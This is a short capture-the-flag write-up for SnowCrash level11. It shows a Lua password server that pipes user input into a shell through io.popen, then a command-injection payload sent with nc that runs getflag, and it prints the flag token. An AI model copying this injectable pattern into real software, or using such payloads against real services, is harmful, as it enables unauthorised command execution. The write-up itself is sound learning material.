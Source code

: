 # Snow-crash - level11

* First we have a lua script, seems to be a server running and listening on 5151 port
    - *prog = io.popen("echo "..pass.." | sha1sum", "r")* in hash function use shell command
```lua
level11@SnowCrash:~$ cat level11.lua 
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```
* When we try to launch it, the program specifies that the server is running, and when connecting to the server it asks for a *Password*
```bash
level11@SnowCrash:~$ ./level11.lua 
lua: ./level11.lua:3: address already in use
stack traceback:
        [C]: in function 'assert'
        ./level11.lua:3: in main chunk
        [C]: ?
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: hi
Erf nope..
```
* Let's try to inject shell and that works
```bash
level11@SnowCrash:~$ echo ';$(getflag | wall)' | nc 127.0.0.1 5151

Broadcast Message from flag11@Snow                                             
        (somewhere) at 11:07 ...                                               

Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s                      

Erf nope..
```

